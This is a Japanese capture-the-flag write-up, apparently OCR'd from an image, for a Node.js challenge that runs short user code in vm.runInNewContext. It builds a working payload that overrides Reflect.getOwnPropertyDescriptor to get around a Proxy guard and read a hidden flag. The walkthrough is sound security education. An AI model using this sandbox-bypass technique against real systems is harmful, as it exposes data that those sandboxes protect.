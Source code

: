 ```javascript
    process.exit(1);
  }
};
start();
```

150 文字以内であれば `vm.runInNewContext` 中で好きな JavaScript コードを実行してくれる Web アプリケーションのようです。 

`obj` という `Proxy` オブジェクトの `flag` プロパティを読み出せばよいようです。ただし、`get` メソッドと `getOwnPropertyDescriptor` メソッドの定義を見ればわかるように、`prop === 'flag'` というチェックによって `flag` プロパティへのアクセスは制限されています。

変数の巻き上げ (`function Proxy(arg) { … }` を入力すると、`obj` の定義より後方に関数の定義があっても、もとの `Proxy` でなくその関数が使われるやつ) によって `Proxy` を置き換え、`obj` の定義時の処理を乗っ取ってもとの `{ flag: '${FLAG}' }` というオブジェクトを取得したくなりますが、これは `const Proxy = globalThis.Proxy;` によって制限されています。

`getOwnPropertyDescriptor` メソッドでは `!target.hasOwnProperty(prop)` と `Object.prototype.hasOwnProperty` が使われているのでこれを置き換えてもとのオブジェクトである `target` を取得したくなりますが、こちらも `Object.freeze` によって制限されています。

他に置き換え可能な関数を探していると、`getOwnPropertyDescriptor` メソッドで使われている `Reflect.getOwnPropertyDescriptor` はなにも置き換えの対策がされていないことがわかります。試してみましょう。

```javascript
Reflect.getOwnPropertyDescriptor = (target) => {
  console.log('[*]', target);
};

const obj = new Proxy({
  flag: 'flag{DUMMY}'
}, {
  getOwnPropertyDescriptor(target, prop) {
    if (prop === 'flag' || !target.hasOwnProperty(prop)) {
      return undefined;
    }
    return Reflect.getOwnPropertyDescriptor(...arguments);
  }
});

obj.a = 123;
Object.getOwnPropertyDescriptor(obj, 'a');
```

これを実行します。

```
$ node test.js
[*] { flag: 'flag{DUMMY}', a: 123 }
```

これは使えそうです。ペイロードを組み立てましょう。

```javascript
a = 'getOwnPropertyDescriptor';
Reflect[a] = value => {
  return { configurable: true, value };
};
obj.b = 123;
Object[a](obj, 'b').value.flag;
```
